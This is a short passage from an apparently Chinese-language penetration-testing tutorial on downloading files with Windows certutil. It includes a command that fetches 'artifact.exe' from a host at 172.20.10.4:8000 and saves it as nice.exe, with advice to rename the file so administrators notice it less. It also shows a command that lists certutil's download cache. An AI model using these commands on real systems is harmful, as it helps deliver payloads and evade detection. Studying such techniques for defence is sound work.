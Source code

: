 这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成 exe

```bash
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

[![](assets/1701612219-65c3da8850cd42f55eb63073b3b57a12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152047-8ae9c4ca-ca85-1.png)

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```bash
certutil -urlcache *
```

[![](assets/1701612219-74f2d7e9f02f1a97df7993763d7cf9d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152049-8c001e0e-ca85-1.png)
